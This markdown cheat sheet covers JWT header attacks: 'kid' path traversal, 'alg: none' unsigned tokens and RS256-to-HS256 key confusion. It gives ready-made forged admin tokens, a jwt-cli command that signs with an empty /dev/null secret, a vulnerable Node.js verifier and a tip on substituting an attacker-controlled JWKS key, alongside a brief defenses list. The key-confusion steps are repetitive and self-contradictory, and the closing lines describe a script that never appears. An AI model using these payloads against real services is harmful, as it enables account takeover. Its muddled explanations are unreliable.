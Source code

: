 # 🔐 JWT Header Injection & `kid` Manipulation Exploits

JWT (JSON Web Tokens) are used for stateless authentication. Poor validation of headers like `alg` and `kid` can result in **critical bypasses** and **privilege escalation**.

---

## 🧠 Understanding `kid`

`kid` stands for **Key ID**. It’s used by the server to decide **which key** to use to verify a JWT.

Attackers can **manipulate this value** to:
- Point to arbitrary files
- Force the app to use attacker-controlled keys
- Trigger local file inclusion or path traversal

---

## ☠️ Common Exploits

### 🔸 1. `kid` File Path Injection (LFI or Confusion)

```json
{
  "alg": "HS256",
  "kid": "../../../../../etc/passwd"
}
```
Backend behavior (vulnerable):

```javascript
const keyPath = `keys/${header.kid}`;
const keyContent = fs.readFileSync(keyPath);
const key = fs.readFileSync(`keys/${header.kid}.pem`);
jwt.verify(token, key);
```

🔁 If file content is read as HMAC key — attacker can use predictable file contents as signing material.

🔸 2. Public Key ➝ HMAC Confusion Attack
This is key confusion between asymmetric (RS256) and symmetric (HS256) algorithms.

Steps:
Get server’s public key (via .well-known/jwks.json, etc).
Forge a JWT with the following header:
```json
{
  "alg": "HS256",
  "kid": "<server_public_key>"
}
```
Generate a JWT with the manipulated header.
Send the forged token to the server.
🔁 Server reads the public key from disk (`keys/public.pem`) and tries to verify the token.
🔁 Since the public key is treated as an HMAC secret, it gets hashed before being used.
🔁 The hash matches the expected HMAC digest, so the server accepts the token.
Modify header:

```json
{
  "alg": "HS256",
  "kid": "public.pem"
}
```
Use the public key as the HMAC secret to sign a token.
Send the forged token to the server.
🔁 Server verifies token with public key (asymmetric) but treats it as an HMAC (symmetric) key.
Server accepts it (believing it's valid).
🔁 Server believes the token was signed correctly because it matches the public key.
🔁 The server thinks the token is valid even though it wasn't signed properly.
🔁 This allows attackers to impersonate users or gain unauthorized access.
🧨 Now you're authenticated as any user — including admin.
🔸 3. alg: none Attack
JWT header:
```json
{
  "alg": "none",
  "typ": "JWT"
}
```
No signature is added. If the server skips validation for alg: none, attacker can forge any payload.
Result: Admin access without knowing the secret or key.

🧪 Example Payloads
1. Unsigned Token (alg: none)
```json
eyJhbGciOiJub25lIn0.eyJ1c2VyIjoiYWRtaW4ifQ.
```
2. Tampered HS256 Token with LFI kid
```json
{
  "alg": "HS256",
  "kid": "../../../dev/null"
}
```
Sign using:
```javascript
// Using jwt-cli tool
jwt encode --alg HS256 --secret "$(cat /dev/null)" '{"user":"admin"}'
```

### 🛡️ Defenses
❌ Do not allow alg: none — ever.

✅ Enforce algorithm types on server (e.g., only RS256).

🧱 Never allow file paths in kid.

🔐 Use robust libraries (PyJWT, jsonwebtoken) with strict settings.

✋ Reject tokens with unknown or untrusted kid.

### 🛠 Tools to Practice

jwt_tool.py
AuthAnalyzer
jwt.io
Postman with Bearer header injection
Burp Suite Repeater + Decoder

### 📌 Pro Tip
If the server uses a JWKS endpoint (/.well-known/jwks.json), try:
Swapping in your own public key with matching kid
Attacking the key rotation process
🔴 Impact: Full account takeover, privilege escalation, and unauthenticated admin access.


## What the script now demonstrates:
> ALG=none bypass - Creates unsigned tokens
> KID path traversal - LFI attempts via KID header manipulation
> Malicious KID payloads - SQL injection, XSS, and edge cases
> Token structure analysis - Decoding and header inspection
> Algorithm confusion attacks - RS256→HS256 vulnerability concept
